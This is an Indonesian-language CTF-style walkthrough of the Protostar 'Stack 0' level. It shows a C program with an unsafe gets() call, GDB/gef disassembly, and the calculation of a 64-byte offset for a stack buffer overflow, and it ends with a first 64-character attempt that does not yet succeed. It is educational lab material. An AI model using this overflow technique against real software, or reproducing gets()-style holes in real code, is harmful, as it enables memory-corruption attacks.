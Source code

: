 # Stack 0
## Tentang
Level ini memperkenalkan konsep bahwa memori dapat diakses di luar wilayah yang dialokasikan, bagaimana variabel stack ditata, dan bahwa memodifikasi di luar memori yang dialokasikan dapat mengubah eksekusi program.

## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Target Exploits
Pada level ini kita ditargetkan untuk mengubah variabel **modified** menjadi tidak sama dengan 0. Pada program diatas, input kita disimpan pada kedalam buffer menggunakan fungsi gets(). Karena gets() bukanlah fungsi yang aman, kita dapat menggunakannya untuk menimpa memori dimana variabel **modified** disimpan.

## Kerentanan Program
Seperti yang dikatakan sebelumnya **gets()** adalah fungsi yang tidak aman. Jika kita melihat pada man pages gets() dengan mengetikkan *man gets* pada bagian BUGS disebutkan bahwa gets() rentan karena tidak mungkin untuk mengetahui berapa banyak karakter yang akan diterima oleh gets(). fungsi ini akan terus menyimpan karakter setelah akhir buffer.

## Lets Dive Deeper
**[!] Disclaimer** saya disini memindahkannya dari Protostar machine kedalam local maschine saya, agar lebih mudah untuk menganalisis programnya. Disini saya juga menggunakan ekstensi dari GDB yaitu gef. Jadi alamat pada machine anda mungkin berbeda

Pertama tama kita coba liat bagaimana kodenya terlihat di assembly menggunakan command berikut
> **gdb -q stack0** </br>
> **disass main**
```
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	and    esp,0xfffffff0
   0x080483fa <+6>:	sub    esp,0x60
   0x080483fd <+9>:	mov    DWORD PTR [esp+0x5c],0x0
   0x08048405 <+17>:	lea    eax,[esp+0x1c]
   0x08048409 <+21>:	mov    DWORD PTR [esp],eax
   0x0804840c <+24>:	call   0x804830c <gets@plt>
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret

```

Kita dapat melihat pada alamat **0x08048415** terdapat fungsi yang membandingkan nilai dari eax dengan eax. Membingungkan bukan? </br>
Namun jika kita melihat sedikit keatas, kita dapat melihat pada alamat **0x08048411** bahwa nilai dari alamat **esp+0x5c** dimasukkan kedalam eax. Coba kita lihat di dalam gdb apa nilai dari alamat **esp+0x5c** tersebut dengan meletakkan breakpoint pada **0x08048415**

> b *0x08048415 </br>
> run </br>
> AAAA </br>
> x/wx $esp+0x5c

```
gef➤  x/wx $esp+0x5c
0xffffcdec:	0x00000000
```

Terlihat bahwa nilai dari alamat itu adalah 0. Kita diperintahkan untuk mengubah nilainya agar != 0 bukan? </br>
**Bagaimana Caranya??** </br>
Coba kita lihat kembali pada functions main, apa yang ia lakukan. Terdapat pada alamat **0x08048405** dimana nilai dari **esp+0x1c** dimasukkan kedalam eax juga. Apakah anda mengerti apa yang ia coba lakukan? :v. Coba kita lihat apa isi alamat itu

> gef➤  x/wx $esp+0x1c

```
gef➤  x/wx $esp+0x1c
0xffffcdac:	0x41414141
```

Jika kita melihat pada kedua alamat tersebut **0xffffcdec** dan **0xffffcdac**, bukankah mereka terlihat tidak begitu jauh?. Hanya dari *ec* ke *ac*. Mari coba kita hitung seberapa banyak karakter yang diperlukan untuk menimpa alamat variabel modified itu

> p/d 0xffffcdec - 0xffffcdac

```
gef➤  p/d 0xffffcdec - 0xffffcdac
$1 = 64
```

Terlihat bahwa untuk mencapai alamat **0xffffcdec** dibutuhkan 64 karakter

## Mari Kita Cobaa
Kita dapat menggunakan python untuk menghasilkan 64 karakter tersebut
```
python -c "print ('A'*64)" | ./stack0
Try again?
```


